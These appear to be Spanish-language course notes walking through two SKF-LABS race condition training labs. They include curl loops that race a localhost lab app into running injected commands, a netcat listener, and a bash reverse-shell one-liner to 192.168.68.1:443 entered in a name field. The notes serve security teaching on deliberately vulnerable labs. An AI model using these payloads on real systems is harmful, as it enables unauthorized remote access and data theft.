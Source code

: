 # Condiciones de carrera (Race Condition)

Tags: #RaceCondition #OWASP #Explotacion 

Las **condiciones de carrera** (también conocidas como **Race Condition**) son un tipo de vulnerabilidad que puede ocurrir en sistemas informáticos donde dos o más procesos o hilos de ejecución compiten por los mismos recursos sin que haya un mecanismo adecuado de sincronización para controlar el acceso a los mismos.

Esto significa que si dos procesos intentan acceder a un mismo recurso compartido al mismo tiempo, puede ocurrir que la salida de uno o ambos procesos sea impredecible, o incluso que se produzca un comportamiento no deseado en el sistema.

Los atacantes pueden aprovecharse de las condiciones de carrera para llevar a cabo ataques de denegación de servicio (**DoS**), sobreescribir datos críticos, obtener acceso no autorizado a recursos, o incluso ejecutar código malicioso en el sistema.

Por ejemplo, supongamos que dos procesos intentan acceder a un archivo al mismo tiempo: uno para leer y el otro para escribir. Si no hay un mecanismo adecuado para sincronizar el acceso al archivo, puede ocurrir que el proceso de lectura lea datos incorrectos del archivo, o que el proceso de escritura sobrescriba datos importantes que necesitan ser preservados.

El impacto de las condiciones de carrera en la seguridad depende de la naturaleza del recurso compartido y del tipo de ataque que se pueda llevar a cabo. En general, las condiciones de carrera pueden permitir a los atacantes acceder a recursos críticos, modificar datos importantes, o incluso tomar el control completo del sistema. Por lo tanto, es importante que los desarrolladores y administradores de sistemas tomen medidas para evitar y mitigar las condiciones de carrera en sus sistemas.

A continuación, se os comparte el enlace directo a los proyectos de Github los cuales estaremos empleando en esta clase para practicar las Race Condition:

-   **SKF-LABS Race Condition**: [https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition](https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition)
-   **SKF-LABS Race Condition 2**: [https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition-file-write](https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition-file-write)


## Race Condition 

* Lab 1: RaceCondition

![](Pasted%20image%2020230524121625.png)

Al momento de ingresar nuestro nombre miramos que se cambia la url. 

![](Pasted%20image%2020230524121713.png)

Después le daremos en boot! y nos mostrar el usuario que hemos ingresado, además de ver que en la URL tenemos otro valor.

![](Pasted%20image%2020230528161222.png)

![](Pasted%20image%2020230528161147.png)


Lo que hace la condición de carrera es, que antes de que te borre el archivo porque se acontece una validación de caracteres y no deja que coloquemos caracteres especiales como las comillas simples. Podríamos hacer que justo en ese momento antes de que nos borre el archivo, poder leer ese documento, ya que existe un pequeño margen. 

![](Pasted%20image%2020230528162751.png)

Aquí podemos leer el archivo y el pequeño margen antes de que sea borrado. 


* Para poder hacer el ataque y ver el contenido web de la maquina victima en nuestra consola. Nos pondremos en 'escucha'
```bash 
❯ while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep "Check this out" | htm2text | xargs | grep -vE "hola|Important|Default User"; done       
# Haremos un bucle infinito, mandando peticiones a la web victima, en donde solo vamos a ver el resultado del campo 'Check this out' y quitaremos las cadenas que no queremos que nos salgan como 'hola, important y default user'
```


![](Pasted%20image%2020230524121713.png)

Ahora en la URL podemos ver que en donde dice person, coloca el usuario que hemos ingresado anteriormente. Por lo que haciendo otro bucle infinito pero en este ocasión mandaremos esa query desde nuestra consola.

```bash 
❯ while true; do curl -s -X GET 'http://localhost:5000/?person='id'&action=validate'; done  # Mandaremos la query muchas veces para que en algun punto nos llegue a mostrar el contenido que queremos en la query de arriba
```

Cabe mencionar que esto no sale a la primera, sino que debemos de tener mucha paciencia para poder leer el contenido del archivo. 

![](Pasted%20image%2020230528164645.png)

Después de un rato, nos sale el output. Esto quiere decir que puede ejecutar comandos. 


* Por lo que ahora podríamos hacer una ReverShell de la siguiente manera. 
```bash
❯ nc -nlvp 443        # Nos ponemos en escucha en nuestra consola 
```

![](Pasted%20image%2020230528161147.png)

Vamos a la pagina y en el campo 'Your name', podemos colocar el siguiente comando. 
```bash 
❯ 'bash -c "bash -i >& /dev/tcp/192.168.68.1/443 0>&1"'            # Comando de la ReverShell
```



* Lab 2: RaceCondition-file-write

Ahora tenemos este tipo de escenario.
![](Pasted%20image%2020230528165442.png)

Si colocamos prueba en la url. Podremos descargar un recurso que se llamara siempre como 'Shared-file.txt'

![](Pasted%20image%2020230528165613.png)


El margen en esta ocasión es cuando mete el archivo y cuando nosotros lo descargamos. Entonces si existen muchos usuarios creando su usuario y descargando el archivo, es ahí donde se puede acontecer este tipo de vulnerabilidad de condición de carrera.

![](Pasted%20image%2020230528170353.png)

Supongamos que hay otro usuario que también esta solicitando su archivo, y lo llama 'testing'. 

![](Pasted%20image%2020230528170451.png)
Nosotros como usuarios estamos solicitando nuestro archivo llamado 'hola'.

Por lo que al momento de acontecerse este tipo de vulnerabilidad por la manera en que existen 'muchos' usuarios haciendo le petición y solicitando el 'mismo' archivo, en algún punto este les devolverá otra cosa.

![](Pasted%20image%2020230528170737.png)

![](Pasted%20image%2020230528170804.png)

Para poder ejecutar el race condition, debemos de hacer muchas solicitudes y es así como se se puede acontecer.



